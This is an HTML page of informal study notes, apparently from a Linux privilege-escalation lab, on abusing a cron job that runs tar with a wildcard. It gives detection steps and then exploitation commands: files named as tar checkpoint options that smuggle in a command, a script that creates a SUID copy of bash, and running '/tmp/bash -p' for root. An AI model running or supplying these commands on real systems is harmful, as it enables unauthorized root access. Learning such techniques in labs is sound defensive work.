

<!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Cron Wildcards</title>
</head><body><b>Escalation via Cron Wildcards</b> 
 
 
This was wild. 
 
TLDR 
 
in the instnace that a cron job calls a specific file.  
further investigation identifies that it includes a wildcard * 
 
we inject malicious code into the wild card space. IE the code itself is happy run what ever since it will run all with the wild card. 
 
 
 
 
example. 
 
compress.sh was called direclty. 
 
cat to further investigate, identified a tar, back up command with a * wild card. 
 
crate a malicious file &gt; runme.sh and make it executable. 
 
touch a checkpoint 
make that check point perform an action. 
 
Wait x time for the cron job to run  
 
execute the payload <b>/tmp/bash -p</b> 
 
When in doubt google tar 
 
Keep in mind... the tar command itself could be a cron job. ie without being in its own script. same process 
 
* = spidey sences. 
 
Detection 
 
Linux VM 
 
1. In command prompt type: cat /etc/crontab 
2. From the output, notice the script “/usr/local/bin/compress.sh” 
3. In command prompt type: cat /usr/local/bin/compress.sh 
4. From the output, notice the wildcard (*) used by ‘tar’. 
  
 
Exploitation 
 
Linux VM 
 
1. In command prompt type: 
<b>echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' &gt; /home/user/runme.sh</b> 
2. <b>touch /home/user/--checkpoint=1</b> 
3. <b>touch /home/user/--checkpoint-action=exec=sh\ runme.sh</b> 
4. Wait 1 minute for the Bash script to execute. 
5. In command prompt type: /tmp/bash -p 
6. In command prompt type: id 
 
 
alternate... lets say a location is backed up 
 
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' &gt; /home/andre/backup/shell.sh 
 
still need backups.. 
 
<b>touch </b>/home/andre/backup/<b>--checkpoint=1 
</b><b>touch </b>/home/andre/backup/<b>--checkpoint-action=exec=sh\ shell.sh 
</b><b> 
 
 
</b> 
 
Detection 
 
Linux VM 
 
1. In command prompt type: cat /etc/crontab 
2. From the output, notice the script “/usr/local/bin/compress.sh” 
3. In command prompt type: cat /usr/local/bin/compress.sh 
4. From the output, notice the wildcard (*) used by ‘tar’. 
 
Exploitation 
 
Linux VM 
 
1. In command prompt type: 
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' &gt; /home/user/runme.sh 
2. touch /home/user/--checkpoint=1 
3. touch /home/user/--checkpoint-action=exec=sh\ runme.sh 
4. Wait 1 minute for the Bash script to execute. 
5. In command prompt type: /tmp/bash -p 
6. In command prompt type: id<b> 
</b></body></html>